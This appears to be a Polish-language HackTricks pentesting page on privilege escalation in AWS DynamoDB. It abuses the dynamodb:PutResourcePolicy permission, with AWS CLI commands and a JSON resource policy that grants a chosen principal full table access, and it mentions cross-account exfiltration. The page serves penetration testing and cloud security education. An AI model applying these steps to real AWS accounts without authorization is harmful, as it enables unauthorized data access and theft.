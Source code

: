# AWS - DynamoDB Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## dynamodb

Więcej informacji o dynamodb znajdziesz:

{{#ref}}
../../aws-services/aws-dynamodb-enum.md
{{#endref}}

### `dynamodb:PutResourcePolicy`, and optionally `dynamodb:GetResourcePolicy`

Od marca 2024 AWS oferuje *polityki oparte na zasobach* dla DynamoDB ([AWS News](https://aws.amazon.com/about-aws/whats-new/2024/03/amazon-dynamodb-resource-based-policies/)).

Tak więc, jeśli masz uprawnienie `dynamodb:PutResourcePolicy` do tabeli, możesz po prostu przyznać sobie lub dowolnemu innemu principal pełny dostęp do tej tabeli.

Przyznanie `dynamodb:PutResourcePolicy` przypadkowemu principal często zdarza się przez pomyłkę, jeśli administratorzy myślą, że przyznanie `dynamodb:Put*` pozwoli tylko na wstawianie elementów do bazy — albo jeśli przyznali ten zestaw uprawnień przed marcem 2024...

Idealnie, powinieneś mieć także `dynamodb:GetResourcePolicy`, dzięki czemu nie nadpiszesz innych potencjalnie istotnych uprawnień, a jedynie dodasz potrzebne uprawnienia:
```bash
# get the current resource based policy (if it exists) and save it to a file
aws dynamodb get-resource-policy \
--resource-arn <table_arn> \
--query 'Policy' \
--output text > policy.json
```
Jeśli nie możesz pobrać bieżącej polityki, użyj tej, która przyznaje twojemu principalowi pełny dostęp do tabeli:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "FullAccessToDynamoDBTable",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<ACCOUNT_ID>:<USER_OR_ROLE>/<USERNAME_OR_ROLENAME>"
},
"Action": [
"dynamodb:*"
],
"Resource": [
"arn:aws:dynamodb:<REGION>:<AWS_ACCOUNT_ID>:table/<TABLENAME>"
]
}
]
}
```
Jeśli musisz to dostosować, oto lista wszystkich możliwych akcji DynamoDB: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Operations.html). A tutaj jest lista wszystkich akcji, które mogą być dozwolone za pomocą resource based policy *ORAZ które z nich można użyć cross-account (think data exfiltration!)*: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/rbac-iam-actions.html)

Teraz, mając przygotowany dokument polityki `policy.json`, umieść resource policy:
```bash
# put the new policy using the prepared policy file
# dynamodb does weirdly not allow a direct file upload
aws dynamodb put-resource-policy \
--resource-arn <table_arn> \
--policy "$(cat policy.json)"
```
Teraz powinieneś mieć potrzebne uprawnienia.

### Post Exploitation

Z tego co wiem **nie istnieje inny bezpośredni sposób eskalacji uprawnień w AWS tylko mając pewne uprawnienia do AWS `dynamodb`**. Możesz **odczytać wrażliwe** informacje z tabel (które mogą zawierać poświadczenia AWS) oraz **zapisywać informacje w tabelach** (co może wywołać inne podatności, takie jak lambda code injections...) ale wszystkie te opcje zostały już omówione na **DynamoDB Post Exploitation page**:

{{#ref}}
../../aws-post-exploitation/aws-dynamodb-post-exploitation/README.md
{{#endref}}

### TODO: Read data abusing data Streams

{{#include ../../../../banners/hacktricks-training.md}}
